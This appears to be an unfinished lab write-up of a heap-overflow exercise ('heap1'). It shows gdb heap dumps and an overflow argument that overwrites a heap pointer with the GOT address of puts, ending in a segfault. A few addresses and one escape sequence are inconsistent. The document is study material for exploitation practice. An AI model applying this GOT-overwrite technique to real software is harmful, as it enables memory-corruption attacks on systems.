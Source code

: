 - **`i1` (`0x804a018`):**
  - `priority`: `1`.
  - `name`: `"AAAABBBB"`.

- **`i2` (`0x804a038`):**
  - `priority`: `2`.
  - `name`: `"00001111"`.

### Analysis
1. **Effect of `strcpy(i2->name, argv[2]);`:**
   - The content of `argv[2]` (which is `"00001111"`) has been copied to `i2->name`.
   - The memory at `0x804a038` now holds the string `"00001111"`, as evidenced by the data at `0x804a030` being `0x30303030 0x31313131`.

2. **Correct Behavior:**
   - Both `i1` and `i2` structures have their `name` fields properly updated without any buffer overflow.
   - The heap is in a consistent state, and both `strcpy` operations executed successfully within their allocated spaces.

3. **Conclusion:**
   - The program handled the inputs correctly in this scenario, with no overflows or corruption.
   - This confirms that the heap allocations were sufficient for the provided inputs, and the program is functioning as intended in this specific case. 

This scenario serves as a good baseline for testing, and similar checks should be performed with larger or intentionally crafted inputs to explore potential vulnerabilities.



## Exploitation
This `\x74\x97\x04\0x08` is the address of GOT of `0x80483cc puts@plt`:
```bash
0x08048561 <main+168>:	call   0x80483cc <puts@plt>
(gdb) disas 0x80483cc
Dump of assembler code for function puts@plt:
0x080483cc <puts@plt+0>:	jmp    DWORD PTR ds:0x8049774
0x080483d2 <puts@plt+6>:	push   0x30
0x080483d7 <puts@plt+11>:	jmp    0x804835c
End of assembler dump.
```

We can try to overwrite the `i2->name` with that address (TODO: explain why)

```bash
(gdb) r "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" 000011112222333344445555

(gdb) c
Continuing.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x45454545	0x08049774
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
0x8048561 <main+168>:	call   0x80483cc <puts@plt>
0x8048566 <main+173>:	leave  

Breakpoint 6, 0x08048561 in main (argc=3, argv=0xbffff824) at heap1/heap1.c:34
34	in heap1/heap1.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x45454545	0x08049774
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
```